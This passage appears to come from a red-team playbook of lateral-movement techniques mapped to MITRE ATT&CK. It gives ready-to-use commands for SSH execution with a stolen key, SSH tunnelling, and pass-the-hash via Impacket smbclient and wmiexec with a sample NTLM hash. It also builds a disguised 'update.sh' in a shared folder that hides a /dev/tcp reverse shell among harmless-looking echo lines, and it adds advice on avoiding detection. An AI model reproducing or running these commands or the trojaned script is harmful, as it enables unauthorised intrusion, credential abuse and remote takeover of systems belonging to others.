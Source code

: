 Tools for SSH-based lateral movement:

**SSH Command Execution**:
```bash
# Execute command on remote system
ssh user@192.168.1.100 "whoami; hostname"

# Use SSH keys for authentication
ssh -i stolen_key user@192.168.1.100

# SSH port forwarding
ssh -L 8080:internal-server:80 user@192.168.1.100
```

**Specific ATT&CK Mapping**:
- SSH usage for remote access implements T1021.004
- Port forwarding enables access to otherwise unreachable systems

**Red Team Approach**:
- Use compromised credentials or keys from earlier stages
- Implement SSH tunneling for additional lateral movement paths
- Consider persistent SSH configurations in ~/.ssh/config

### Pass the Hash (T1550.002)

This involves using password hashes for authentication without knowing the plaintext password.

**Pass the Hash with Impacket**:
```bash
# SMB connection using hash
python impacket-smbclient -hashes aad3b435b51404eeaad3b435b51404ee:C23AD9B5F526D8F48D90A9D2E6DD52F3 administrator@192.168.1.100

# Execute command with hash
python impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:C23AD9B5F526D8F48D90A9D2E6DD52F3 administrator@192.168.1.100
```

**Specific ATT&CK Mapping**:
- Hash-based authentication implements T1550.002
- Credential reuse enables lateral movement without password cracking

**Operational Security**:
- Pass-the-hash attempts may be logged in authentication records
- Consider using legitimate remote access methods when credentials are available
- Test techniques before operational use to verify effectiveness

### Tainted Shared Content (T1080)

This involves placing malicious content in shared locations to gain access to systems.

**Malicious Script in Shared Location**:
```bash
# Create malicious script
cat > /mnt/shared/update.sh << EOF
#!/bin/bash
# Legitimate-looking script content
echo "Updating system components..."
# Malicious payload
bash -c 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1' &
# Continue with legitimate-looking operations
echo "Update complete."
EOF

chmod +x /mnt/shared/update.sh
```
